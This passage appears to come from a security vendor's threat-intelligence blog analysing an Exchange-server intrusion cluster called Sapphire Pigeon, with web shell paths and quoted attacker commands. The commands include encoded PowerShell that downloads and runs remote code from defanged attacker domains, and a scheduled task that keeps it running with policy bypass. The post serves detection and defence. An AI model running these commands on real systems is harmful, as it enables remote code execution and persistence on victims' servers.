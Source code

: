  

```
c:\program files\microsoft\exchange server\v15\frontend\httpproxy\owa\auth\redirsuiteserverproxy.aspx
c:\inetpub\wwwroot\aspnet_client\supp0rt.aspx
c:\inetpub\wwwroot\aspnet_client\shell.aspx
c:\inetpub\wwwroot\aspnet_client\load.aspx
C:\inetpub\wwwroot\aspnet_client\discover.aspx
```

 

Interestingly, these shells were dropped on victims at different times, some days before we observed any follow-on activity. We have seen these same web shell names show up on many other machines in the absence of other Sapphire Pigeon indicators, so we’ve determined that these filenames alone are not sufficient to distinguish distinct clusters.

However, we observed unique follow-on activity after the web shells were dropped that we decided were useful for clustering. Sapphire Pigeon exhibited the following unique patterns, which we [tweeted about](https://twitter.com/redcanary/status/1367935292724948992) on afternoon of March 5:

- Use of encoded PowerShell to connect to a remote host. `powershell.exe` was a child of `cmd.exe`, which spawned from `w3wp.exe`. (Check out the detection opportunities section below!)

 

```
Decoded command line:
IEX (New-Object
Net.WebClient).downloadstring('hxxp[:]//p.estonine[.]com/p?e')
```

 

- Creation of a scheduled task named `Winnet`:

 

```
"C:\Windows\system32\schtasks.exe" /create /ru system /sc MINUTE /mo 45 /tn Winnet /tr "powershell -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYwBkAG4ALgBjAGgAYQB0AGMAZABuAC4AbgBlAHQALwBwAD8AaABpAGcAMgAxADAAMwAwADUAJwApAA==" /F

Decoded base64 command line string:
IEX (New - Object Net.WebClient).downloadstring('hxxp[:]//cdn.chatcdn[.]net/p?hig210305')
```

 

Sapphire Pigeon activity overlaps significantly with activity reported by [Carbon Black TAU](https://www.carbonblack.com/blog/cb-tau-technical-analysis-dltminer-campaign-targeting-corporations-in-asia/) in July 2019, including use of the domains p.estonine[.]com and cdn.chatcdn[.]net as well as the scheduled task name `Winnet`. However, unlike what Carbon Black previously observed, **we did not observe DLTMiner being dropped as a follow-on payload.** [Huntress Labs](https://twitter.com/KyleHanslovan/status/1368071668678201344) also observed similar activity. In their [analysis of follow-on payloads](https://twitter.com/_johnhammond/status/1368959515958329347), they identified highly obfuscated PowerShell as well as Mimikatz, but there has been no indication of DLTMiner being delivered.

### Other activity that didn’t cluster
